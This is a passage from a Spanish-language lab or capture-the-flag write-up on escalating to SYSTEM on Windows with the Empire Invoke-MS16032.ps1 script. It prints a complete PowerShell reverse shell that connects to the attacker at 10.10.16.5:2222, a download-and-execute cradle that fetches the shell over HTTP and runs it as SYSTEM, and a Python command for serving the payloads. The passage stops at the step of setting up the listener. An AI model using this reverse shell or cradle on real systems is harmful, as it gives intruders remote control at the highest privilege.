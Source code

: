 <br>
<h3 style="text-align:center" id="invoke">INVOKE-MS16032.PS1</h3>
<hr>

Después de que el exploit fallara en varias ocasiones encontré un script el cual tiene la función de agregar un comando que se ejecutará como nt authority system.
<a href="https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1" target="_blanck">Invoke-MS16023.ps1</a>.

1 - Nos creamos una reverse shell en powershell y le agregamos los parámetros correspondientes:

```powershell

❯ cat revshell.ps1
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: revshell.ps1
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ $client = New-Object System.Net.Sockets.TCPClient("10.10.16.5",2222);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = 
       │ (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::A
       │ SCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```
<br>
2 - En Invoke-MS16023.ps1, agregamos al final del script el comando a utilizar siguiendo esta sintaxis `Invoke-MS16-032 -Command "$cmd"`. Nuestro comando será el siguiente:

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.5:8000/revshell.ps1')";

```
<br>
3 - Compartimos los recursos `revshell.ps1 e Invoke-MS16023.ps1` con un servidor de python para que la máquina víctima tenga acceso.

```bash
❯ python3 -m http.server --bind 10.10.16.5
Serving HTTP on 10.10.16.5 port 8000 (http://10.10.16.5:8000/) ...

```

<br>
4 - Nos ponemos por escucha en el puerto correspondiente.
